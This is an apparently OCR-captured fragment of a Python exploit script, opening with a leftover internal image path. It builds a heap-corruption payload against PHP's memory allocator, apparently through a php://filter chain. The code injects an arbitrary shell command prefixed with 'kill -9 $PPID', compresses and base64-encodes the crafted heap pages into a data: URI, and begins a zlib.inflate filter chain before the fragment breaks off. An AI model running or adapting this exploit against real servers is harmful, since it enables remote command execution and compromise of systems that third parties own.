 ```python
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            size=CS,
        )

        step4_custom_heap = ptr_bucket(
            ADDR_EMALLOC, ADDR_EFREE, ADDR_EREALLOC, size=0x18
        )

        step4_use_custom_heap_size = 0x140

        COMMAND = self.command
        COMMAND = f"kill -9 $PPID; {COMMAND}"
        if self.sleep:
            COMMAND = f"sleep {self.sleep}; {COMMAND}"
        COMMAND = COMMAND.encode() + b"\x00"

        assert (
            len(COMMAND) <= step4_use_custom_heap_size
        ), f"Command too big ({len(COMMAND)}), it must be strictly inferior to {hex(step4_use_custom_heap_size)}"
        COMMAND = COMMAND.ljust(step4_use_custom_heap_size, b"\x00")

        step4_use_custom_heap = COMMAND
        step4_use_custom_heap = qpe(step4_use_custom_heap)
        step4_use_custom_heap = chunked_chunk(step4_use_custom_heap)
        step4_use_custom_heap = chunked_chunk(step4_use_custom_heap)
        step4_use_custom_heap = chunked_chunk(step4_use_custom_heap)
        step4_use_custom_heap = compressed_bucket(step4_use_custom_heap)

        pages = (
            step4 * 3
            + step4_pwn
            + step4_custom_heap
            + step4_use_custom_heap
            + step3_overflow
            + pad * self.pad
            + step1 * 3
            + step2_write_ptr
            + step2 * 2
        )

        resource = compress(compress(pages))
        resource = b64(resource) #b64(pages) 
        resource = f"data:text/plain;base64,{resource.decode()}"

        filters = [
            # Create buckets
            "zlib.inflate",
            "zlib.inflate",
            
            # Step 0: Setup heap
```